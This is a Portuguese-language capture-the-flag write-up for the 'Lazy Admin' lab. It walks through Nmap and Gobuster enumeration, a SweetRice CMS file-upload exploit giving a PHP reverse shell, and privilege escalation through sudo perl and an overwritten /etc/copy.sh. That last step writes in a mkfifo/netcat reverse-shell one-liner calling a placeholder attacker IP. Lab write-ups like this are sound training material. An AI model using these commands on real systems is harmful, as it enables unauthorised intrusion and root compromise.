# _**Lazy Admin CTF**_


## _**Enumeração**_
Vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A -T5 [ip_address]
> ```


Vamos também realizar um scan <mark>Gobuster</mark> no alvo
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```


Vamos visitar <mark>/content</mark>  



Este é todo conteúdo de <mark>/content</mark>  
Aparentemente temos um CMS  
Vamos buscar manualmente em alguns diretórios conhecidos para saber qual a versão CMS temos do <mark>SweetRice</mark> ```changelog.txt```  



Achamos em /changelog.txt e também, mais algumas informações
* Versão <mark>1.5.0</mark>
* Autor: <mark>Hiler Liu</mark>
* e-mail: <mark>steelcal@gmail.com</mark>

## _**Ganhando acesso**_
Pesquisando no Google por CVEs conhecidas, encontramos a seguinte: _**SweetRice 1.5.1 - Arbitrary File Upload**_  
Essa CVE permite executarmos um <mark>script em python </mark> e realizar upload de um arquivo _**.php**_ para obtermos um shell reverso  
Os scripts em   
Clonamos para nosso computador com ```git clone```, damos permissão de execução com ```chmod``` e usamos o _**netcat**_ para obtermos o shell reverso  



Agora que obtemos um shell, vamos procurar o que viemos procurar, as _flags_  
Primeiro, nossa _flag de usuário_  
Com o comando ```find```, podemos rapidamente encontrar sua localização
> ```bash
> find / -file "user.txt" 2>/dev/null
> ```


## _**Escalação de privilégios**_
Agora para a _root flag_, temos que escalar privilégios  
Vamos testar alguns comandos  
Primeiro, ```sudo -l```  



Podemos executar um _**script em Perl**_ como _root_ sem a necessidade de senha
Ou também, podemos alterar o arquivo _backup.pl_ (arquivo Perl) para obtermos _root_
Executando o comando abaixo para termos _root_
> ```bash
> sudo perl -e ‘exec “/bin/bash”’
> ```


Vamos buscar uma forma alternativa, tentando editar o arquivo _.pl_  
Ao verificar se é possível editar, temos uma negação  
Porém, o arquivo encontrado **(/etc/copy.sh)** pode ser editado  
Basicamente é um arquivo que _backup.pl_ que fica executando  
E ele pode ser editado para nós obtermos uma _shell root_  
Executando o comando abaixo da imagem, copiamos o seu conteúdo para _/etc/copy.sh_
> ```bash
> python3 -c 'import pty, os; pty.spawn("/bin/bash")'
> ```
> ```bash
> cat /etc/copy.sh
> ```
> ```bash
> echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [vpn_ip_address] [port] >/tmp/f" > /etc/copy.sh
> ```


Aora, basta executar o arquivo _/home/itguy/backup.pl_ como _sudo_ para obtermos o _shell root_.  
Não podemos esquecer do _netcat_  



A partir daí, um simples comando 
> ```bash
> find / -name ‘root.txt’ 2>/dev/null
> ```
e temos a segunda _flag_
